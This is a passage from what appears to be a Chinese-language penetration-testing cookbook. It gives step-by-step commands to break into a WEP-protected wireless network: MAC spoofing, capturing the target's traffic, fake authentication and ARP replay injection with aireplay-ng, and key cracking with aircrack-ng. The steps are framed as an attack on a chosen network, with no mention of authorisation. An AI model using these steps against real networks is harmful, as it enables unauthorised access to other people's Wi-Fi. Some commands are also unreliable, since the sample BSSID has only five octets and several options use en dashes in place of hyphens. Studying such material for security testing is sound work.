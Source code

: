 4.  下面，我们需要修改我们接口的 MAC 地址。由于机器的 MAC 地址会在任何网络上标识你的存在，修改机器的标识允许我们隐藏真正的 MAC 地址。这里，我们使用`00:11:22:33:44:55`。

    ```
    macchanger --mac 00:11:22:33:44:55 wlan0 
    ```

5.  现在我们需要重启`airmon-ng`。

    ```
    airmon-ng start wlan0
    ```

6.  下面，我们会使用`airodump`来定位附近的可用无线网络。

    ```
    airodump-ng wlan0 
    ```

7.  这会出现可用无线网络的列表。一旦你找到了你想要攻击的网络，按下`Ctrl + C`来停止搜索。选中`BSSID`列中的 MAC 地址，右击你的鼠标，并且选择复制。同时，把网络正在发送哪个频道的信号记录下载。你会在`Channel`列中找到这个信息。这里，这个频道是`10`。

8.  现在运行`airodump`，并且将所选`BSSID`的信息复制到文件中。我们会使用下列选项：

    *   `-c`允许我们选择频道。这里我们选择`10`。

    *   `-w`允许我们选择文件名称。这里我们选择`wirelessattack`。

    *   `-bssid`允许我们选择我们的`BSSID`。这里，我们从剪贴板上粘贴`09:AC:90:AB:78`。

    ```
    airodump-ng –c 10 –w wirelessattack --bssid 09:AC:90:AB:78 wlan0 
    ```

9.  新的窗口会打开，并展示这个命令的输出。保持这个窗口开着。

10.  打开另一个终端窗口，为了尝试组合它们，我们运行`aireplay`。它拥有下列语法：`aireplay-ng -1 0 –a [BSSID] –h [our chosen MAC address] –e [ESSID] [Interface]`。

    ```
    aireplay-ng -1 0 -a 09:AC:90:AB:78 –h 00:11:22:33:44:55 –e backtrack wlan0
    ```

11.  下面，我们发送一些流量给路由器，便于捕获一些数据。我们再次使用`aireplay`，以下列格式：`aireplay-ng -3 –b [BSSID] – h [Our chosen MAC address] [Interface]`。

    ```
    aireplay-ng -3 –b 09:AC:90:AB:78 –h 00:11:22:33:44:55 wlan0
    ```

12.  你的屏幕会开始被流量填满。将它运行一到两分钟，直到你拥有了用来执行破解的信息。

13.  最后我们运行 AirCrack 来破解 WEP 密码。

    ```
    aircrack-ng –b 09:AC:90:AB:78 wirelessattack.cap 
    ```

    这就结束了。

### 工作原理
